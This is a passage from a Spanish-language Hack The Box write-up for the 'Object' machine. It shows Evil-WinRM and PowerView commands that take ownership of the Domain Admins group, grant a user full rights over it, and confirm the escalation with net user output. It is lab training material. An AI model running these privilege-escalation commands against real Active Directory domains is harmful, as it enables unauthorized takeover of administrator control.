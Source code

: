 ![](/assets/images/HTB/htb-writeup-Object/ob9.PNG)

```cmd
*Evil-WinRM* PS C:\ProgramData\Privesc> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\ProgramData\Privesc> Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity maria
*Evil-WinRM* PS C:\ProgramData\Privesc> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity maria
```

Vemos los grupos del usuario `maria` y ya se encuentra en `Domain Admins`.

```cmd
*Evil-WinRM* PS C:\ProgramData\Privesc> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 9:16:32 PM
Password expires             Never
Password changeable          10/22/2021 9:16:32 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 C:\ProgramData\Privesc\test.ps1
User profile
Home directory
Last logon                   10/26/2023 2:25:15 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```
